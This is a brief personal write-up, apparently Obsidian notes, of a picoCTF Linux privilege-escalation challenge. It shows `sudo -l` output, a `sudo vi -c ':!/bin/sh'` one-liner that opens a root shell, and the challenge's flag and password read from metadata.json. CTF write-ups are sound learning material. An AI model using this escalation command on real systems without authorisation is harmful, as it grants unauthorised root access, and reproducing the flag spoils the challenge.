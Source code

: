 https://play.picoctf.org/practice/challenge/363?category=5&page=3

- [[Linux]] system, so [[Linux Permissions]]
- `sudo -l` to check permissions
```
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
- we can use [[vi]]
- run `sudo vi test` to open up vi
- based on [[Good Links#^d81b34]], we can use `sudo /usr/bin/vi -c ':!/bin/sh' /dev/null` to get a interactive shell
- running the command we can see we have accessed root with [[whoami]]
```
# whoami
root
```
- go into challenge folder and read the json file
```
# cd challenge
# ls
metadata.json
# cat metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_55878b51}", "username": "picoplayer", "password": "yX-YQgX-vS"}
```